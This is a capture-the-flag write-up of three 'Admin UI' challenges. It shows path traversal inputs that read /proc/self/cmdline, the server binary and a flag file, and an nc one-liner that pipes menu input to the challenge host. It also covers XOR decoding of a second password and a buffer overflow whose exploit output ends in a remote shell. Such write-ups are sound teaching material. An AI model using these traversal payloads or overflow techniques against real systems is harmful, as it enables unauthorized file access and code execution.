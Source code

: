 # Admin UI

> https://ctftime.org/writeup/10289

When we examine patchnotes we can find out that although path traversal vulnerability was patched in v0.2 it was rolled back in v0.3.
Let's try it
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../../../../../proc/self/cmdline
./main
```
So our binary is named `main`. Hopefully we can just print its contents the same way.
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../main
```
We have to redirect output to file and then remove additional data added by this application (menu etc.)
```
printf "2\n../main\n3\n" | nc mngmnt-iface.ctfcompetition.com 1337 > output.bin
```
(open output.bin in any notepad or hexeditor and remove everything before \x7fELF and after the last series of null bytes at the end)

This way we got the copy of the binary running on the server.
When we open it in IDA we can see that the application reads the password from file `flag`. Let's cat it.
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../flag
CTF{I_luv_buggy_sOFtware}
```
Flag: `CTF{I_luv_buggy_sOFtware}`

# Admin UI 2

> https://ctftime.org/writeup/10288

When we enter the flag from previous level as the password we can see that it's not the end and we have to enter secondary password.
When we analyze it in IDA, we can notice that it only checks if the password has 35 characters (maybe it wasn't intended by creators of this challenge).
Anyway we can the second flag offline. There is `_ZL4FLAG` offset in IDA and it's `const unsigned __int8 FLAG[35]`.
We can also notice that before length check our password is xorred with 0xC7 byte. So maybe if we just xor the flag from memory with this byte we'd get the flag back?
This [script](2nd.py) does it for us.

Flag: `CTF{Two_PasSworDz_Better_th4n_1_k?}`

# Admin UI 3

> https://ctftime.org/writeup/10287

The last part of the series and the most interesting one. We finally get to command execution. Unfortunately there is variable `_ZL13shell_enabled` and it's set to false.
But we can execute some built-in commands. `debug` command prints us a lot of interesing informations about the memory. The most important is `_ZL13cmds_executed` variable and its address. `shell_enabled` is just after it in the memory!
Also there is `echo` command which calls printf with our input as first parameter. This would allow us to perform format string attack.
But there's an easier solution. ASLR is disabled for this binary, so addresses are constant and we don't need to print them at all (we can get it with IDA).
The second vulnerability is buffer overflow. If we send 0x38 times any letter and after that an address of the debug_shell() call (the if branch that would be executed if shell_enabled variable were set to true) the application will return to that address.
[exploit](exploit.py)
When you run the exploit you have to type `quit` twice. And then you have the shell.
```
$ ./exploit.py
[+] Opening connection to mngmnt-iface.ctfcompetition.com on port 1337: Done
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
1

Please enter the backdoo^Wservice password
CTF{I_luv_buggy_sOFtware}
:
! Two factor authentication required !
Please enter secret secondary password
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
:
Authenticated
[*] Switching to interactive mode

> Unknown command ''
> Unknown command 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAICAA'
> Bye!
$ ls -la
total 144
drwxr-xr-x 3 user   user      4096 Jun 18 08:25 .
drwxr-xr-x 3 nobody nogroup   4096 May 25 13:19 ..
-rw-r--r-- 1 user   user       220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 user   user      3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 user   user       655 May 16  2017 .profile
-rw-r--r-- 1 nobody nogroup     26 May 24 15:03 an0th3r_fl44444g_yo
-rw-r--r-- 1 nobody nogroup     25 Jun 18 08:25 flag
-rwxr-xr-x 1 nobody nogroup 111128 Jun 18 08:25 main
drwxr-xr-x 2 nobody nogroup   4096 Jun 18 08:25 patchnotes
$ cat an0th3r_fl44444g_yo
CTF{c0d3ExEc?W411_pL4y3d}
```

Flag: `CTF{c0d3ExEc?W411_pL4y3d}`
